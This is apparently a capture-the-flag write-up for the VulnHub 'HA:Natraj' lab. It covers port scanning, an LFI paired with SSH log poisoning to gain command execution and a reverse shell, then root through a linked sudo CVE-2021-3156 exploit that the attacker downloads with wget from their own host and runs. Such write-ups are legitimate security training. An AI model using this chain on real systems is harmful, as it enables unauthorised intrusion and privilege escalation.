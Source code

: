 # Ha-Natraj

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled.png)

```bash
IP : 192.168.249.135
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Ha_natraj]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.135                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:01 EDT
Nmap scan report for 192.168.249.135
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F7:80:5D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%201.png)

Now lets see the directory traveral files/directories →

```bash
200      GET      183l     1767w    14497c http://192.168.249.135/
301      GET        9l       28w      319c http://192.168.249.135/images => http://192.168.249.135/images/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/images (Apache)
200      GET      183l     1767w    14497c http://192.168.249.135/index.html
301      GET        9l       28w      320c http://192.168.249.135/console => http://192.168.249.135/console/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/console (Apache)
```

Let’s look for LFI in `/console/` directory→

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%203.png)

Now I found a `auth.log` file where I found ssh login logs →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%204.png)

Now I have to try `ssh poisoning` to get the command execution running →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%205.png)

Now lets see the response in auth.log file →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%206.png)

After this lets try command injection through `cmd` →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%207.png)

Its reverse Shell time →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%208.png)

Now In response I got the shell →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%209.png)

Now I found nothing so far , therefore I got to know about sudo version and exploited it →

```bash
www-data@ubuntu:/var/www/html$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Now After recon I found the exploit →

➡️ [https://github.com/worawit/CVE-2021-3156/tree/main](https://github.com/worawit/CVE-2021-3156/tree/main)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%2010.png)

Now lets copy this exploit into our system →

```bash
www-data@ubuntu:/tmp$ wget http://192.168.249.128:8888/exploit.py
--2023-05-19 00:57:26--  http://192.168.249.128:8888/exploit.py
Connecting to 192.168.249.128:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]   7.99K  --.-KB/s    in 0s      

2023-05-19 00:57:26 (483 MB/s) - 'exploit.py' saved [8179/8179]

www-data@ubuntu:/tmp$ ls
exploit.py
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.135
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.135'
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.128
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.128'
www-data@ubuntu:/tmp$ python3 exploit.py                
# /bin/bash
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/tmp# hostname
ubuntu
root@ubuntu:/tmp# cd ~
root@ubuntu:/root# ls -al
total 24
drwx------  3 root root 4096 Jun  3  2020 .
drwxr-xr-x 22 root root 4096 Jun  3  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1592 Jun  3  2020 root.txt
root@ubuntu:/root# cat root.txt

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
root@ubuntu:/root#
```